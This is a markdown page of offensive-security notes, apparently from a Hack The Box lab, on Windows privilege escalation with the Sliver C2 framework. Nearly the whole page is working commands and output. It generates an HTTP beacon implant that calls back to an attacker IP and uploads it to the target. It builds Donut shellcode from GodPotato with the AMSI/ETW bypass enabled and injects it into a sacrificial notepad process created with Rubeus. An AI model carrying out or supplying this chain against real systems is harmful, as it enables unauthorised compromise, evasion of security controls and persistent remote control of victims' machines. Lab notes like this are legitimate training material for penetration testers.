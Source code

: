 ```yaml
---
description: Aliases and Extensions
---
```


# Privilege Escalation

Within Sliver you can run programs like

* `seatbelt -- -group=all`
* `sharpup -- audit`

The `execute-assembly` command can be used as well for executing .NET binaries that we have compiled.

* `execute-assembly /home/Seatbelt.exe -group=system`
* `execute-assembly /home//GodPotato-NET4.exe -cmd "whoami"`

## <mark style="color:yellow;">Donut</mark>

Donut creates binary shellcodes that can be executed in memory. So we can use this to generate a shellcode of a .NET binary and run it with `execute-shellcode`.

1. We would need to create either an `http` or `mtls` beacon(s) beforehand.

```sh
sliver (HIGH_RISER) > generate beacon --http 10.10.14.62:9002 --skip-symbols -N http-beacon

[*] Generating new windows/amd64 beacon implant binary (1m0s)
[!] Symbol obfuscation is disabled
[*] Build completed in 3s
[*] Implant saved to /home/htb-ac590/http-beacon.exe
```

2. Upload the beacon to the target. The shellcode from Donut will look for the binary in the payload argument for the tool. Place it in c:\Windows\Tasks or Temp.

```sh
sliver (HIGH_RISER) > upload http-beacon.exe
[*] Wrote file to c:\temp\http-beacon.exe
```

3. Start an `HTTP` listener that will listen on port 9002 in Sliver.

```sh
sliver (HIGH_RISER) > http --lhost 10.10.14.62 --lport 9002

[*] Starting HTTP :9002 listener ...
[*] Successfully started job #5
```

4. Create binary shellcode using:\
   `-i` for executing in memory\
   `-a 2` is amd64\
   `-b 2` is AMSI/WLDP/ETW bypass\
   `-p` binary arguments\
   `-o` output directory and name shellcode

```sh
./donut -i /home/kali/GodPotato-NET4.exe -a 2 -b 2 -p '-cmd c:\temp\http-beacon.exe' -o /home/kali/godpotato.bin
```

5. Create a sacrificial process using Rubeus.

```sh
sliver (HIGH_RISER) > execute-assembly /home/htb-ac590/Rubeus.exe createnetonly /program:C:\\windows\\system32\\notepad.exe
```

6. With sacrifical process running use execute shellcode with the PID from Rubeus and the payload.bin.

```sh
sliver (HIGH_RISER) > execute-shellcode -p 5668 /home/htb-ac590/godpotato.bin

[*] Executed shellcode on target
sliver (HIGH_RISER) > ps -e notepad

 Pid    Ppid   Owner                        Arch     Executable    Session 
====== ====== ============================ ======== ============= =========
 5668   5884   IIS APPPOOL\DefaultAppPool   x86_64   notepad.exe   0  
 
# Use beacon
use 46d
```
